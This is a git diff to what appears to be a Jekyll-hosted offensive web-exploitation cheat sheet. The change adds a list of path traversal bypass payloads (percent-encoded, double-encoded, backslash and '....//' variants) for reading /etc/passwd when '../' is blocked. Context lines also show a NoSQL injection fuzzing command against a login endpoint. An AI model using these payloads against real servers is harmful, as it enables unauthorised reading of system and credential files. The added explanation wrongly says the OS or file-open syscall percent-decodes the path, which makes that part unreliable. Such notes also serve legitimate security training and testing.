

Before and after one commit to v0idravl/hakiki, a Jekyll site: the page built from web/web_exploitation.md, in a window 1280 px wide and 1400 px high, scrolled down 2467 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; our own code applies the rules of GitHub Pages for plain Markdown files.

Commit message:
web: add path traversal normalisation bypass variants (%2e%2e/ when ../ blocked)

````diff
--- a/web/web_exploitation.md
+++ b/web/web_exploitation.md
@@ -122,6 +122,38 @@ nosqli -u "http://$IP/login" -d '{"user":"FUZZ","pass":"test"}' -f user
 ..%2f..%2f..%2fetc%2fpasswd
 %2e%2e%2f%2e%2e%2fetc%2fpasswd
 ```
+
+### Normalisation bypass -- when `../` returns 404
+
+Single-pass normalisation strips `../` in the ASCII form before routing, but does not re-check after
+URL decoding. Try these variants in order when `../` is blocked:
+
+```
+# 1. First candidate -- catches single-pass normalisation (AIOHTTP CVE-2024-23334 and many others)
+%2e%2e/etc/passwd
+%2e%2e/%2e%2e/%2e%2e/etc/passwd
+
+# 2. Double-encode (server decodes twice; normaliser only runs on first decode)
+%252e%252e/etc/passwd
+
+# 3. Mixed encoding
+..%2fetc%2fpasswd
+%2e%2e%2fetc/passwd
+
+# 4. Slash variations (some servers normalise / but not \)
+..\etc\passwd           (Windows targets)
+..%5cetc%5cpasswd       (%5c = \)
+
+# 5. Path separator variations
+....//etc/passwd         (four dots -- normalise strips two, leaving ../)
+..././etc/passwd
+```
+
+> **Why this works:** normalisation that strips `../` operates on the raw request URI before
+> percent-decoding. `%2e%2e/` is not recognised as `../` at strip time, so it passes through
+> untouched, then the OS or file-open syscall decodes `%2e` to `.` and resolves the traversal.
+> The first variant to try is always `%2e%2e/` -- it catches the largest class of single-pass
+> normalisation bugs. (Confirmed: AIOHTTP CVE-2024-23334, multiple nginx misconfig patterns.)
 
 ### Useful files to read
 
````
